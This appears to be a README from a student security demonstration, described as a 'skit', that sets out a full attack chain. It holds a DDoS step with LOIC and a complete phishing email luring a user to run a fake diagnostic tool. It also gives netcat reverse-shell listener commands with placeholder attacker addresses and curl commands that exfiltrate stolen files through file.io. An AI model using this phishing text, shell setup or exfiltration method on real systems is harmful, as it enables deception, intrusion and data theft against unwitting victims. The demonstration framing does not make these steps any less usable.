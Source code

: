 # Attack Flow

1. DDoS to a company’s computer to cause slow network traffic with LOIC

2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics

> Subject: ACTION REQUIRED: Irregular Internet Activity Detected <br>
> Date: 19 Feb 2021 05:37:51 -0800 <br>
> From: Security Notice <it-services@support.ipear.com> <br>
>
>
> Dear Fahmi,
>
> As a precautionary measure we have restricted access to your account
> due to irregular internet activity detected.
>
> Please run the attached Internet Diagnostic Tool to resolve the issue.
>
> The Internet Diagnostic Tool is attached below.
>
> To prevent further irregular activity we will restrict access to your
> account within 72 hours if you did not run the full internet diagnostic
> test.
>
>
> To ensure your account is protected at all times, we ask you to complete the
> following steps:
>
> Check that all your computers and mobile devices used to access your account
> have an up-to-date virus scanner to detect any possible malware.
>
> Check whether any of your personal data, especially your alternative address,
> has been changed by clicking on “My Account” on your “Homepage”.
> 
> Go to your “Email settings” then click on “Filter rules” to check whether any
> forwarding rules have been created. If you created a forwarding rule
> yourself, ensure that the email address used is still valid.
>
>
> Thank you for your cooperation.
> 
>
> Sincerely, <br>
> iPear Support
>
> iPear | Support | Privacy Policy  <br>
> Copyright ©2022 Secured Service. 50 Nanyang Ave, Singapore 639798 <br>
> All rights reserved. <br>

3. Gain access to the computer and navigate through the computer’s directories
    - On attacker's computer (Linux with netcat installed), run the following
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - If the victim is using Windows, run the following on the attacker's computer
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - Victim runs the 'Diagnostic Tool' executable file: [Linux](../Attack/victim_linux.py) or [Windows](../Attack/victim_windows.py)
    - Boom! Access granted!

4. Upload whatever files we want to [file.io](https://file.io)
    - Run the following curl script and take note of the **KEY** it returns
    ```bash
    curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```
    - Download all the files after the attack with the following command
    ```bash
    curl -X 'GET' \
        'https://file.io/' \
        -H 'accept: */*' \
        -o 'FILE_NAME_GOES_HERE'
    ```

5. Find another company as our target to attack

6. Perform the same attack again, turns out this company has very good security in place

7. End of our skit
